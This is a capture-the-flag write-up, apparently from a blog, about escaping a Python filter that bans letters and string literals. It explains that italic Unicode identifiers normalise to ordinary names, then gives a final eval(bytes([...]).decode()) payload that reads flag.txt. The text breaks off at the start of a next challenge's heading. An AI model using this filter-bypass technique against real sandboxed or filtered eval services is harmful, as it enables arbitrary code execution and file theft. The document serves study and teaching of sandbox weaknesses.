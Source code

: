 The payload, however, must not contain any lowercase or uppercase letter or string literal

The goal of this challenge is to read the flag from the server

#### Solution

At first, I was searching for a method to code python without alphabets, apparently, this is [possible](https://ctftime.org/writeup/10726) in python2 with backtick ``. But since the server was running on python3, this method will not work.

I got stuck for a while until the organizers released this hint

> Is print(1) == 𝒑𝒓𝒊𝒏𝒕(1) ? Maybe? Really?

Observe that the first `print` is a regular string, and the second `𝒑𝒓𝒊𝒏𝒕` was italic.

I thought that this might mean that python accepts Unicode character as the function name, so I can just provide italic characters to bypass the filter

I opened a python terminal to try it out

```python
>>> 𝒑𝒓𝒊𝒏𝒕("hello")
hello
```

It works!

Great! Now that I can use every lowercase character, I just need to find a way to bypass the string literal restriction.

It is not difficult to do this by using the `bytes()` function

First I convert the code

`print(open('flag.txt').read())` to bytes

```python
[112, 114, 105, 110, 116, 40, 111, 112, 101, 110, 40, 34, 102, 108, 97, 103, 46, 116, 120, 116, 34, 41, 46, 114, 101, 97, 100, 40, 41, 41]
```

Then I convert it to bytes with the `bytes()` function and wrap it around again with `eval()` to execute the code

Final payload

```python
𝒆𝒗𝒂𝒍(𝒃𝒚𝒕𝒆𝒔([112, 114, 105, 110, 116, 40, 111, 112, 101, 110, 40, 34, 102, 108, 97, 103, 46, 116, 120, 116, 34, 41, 46, 114, 101, 97, 100, 40, 41, 41]).𝒅𝒆𝒄𝒐𝒅𝒆())
```

### Secure Dream 2.0



> Can you really bypass another dreams?


<button class="collapsible btn" id="data">server.py</button>

<div class="content" id="datadata" style="display:none" markdown="1">
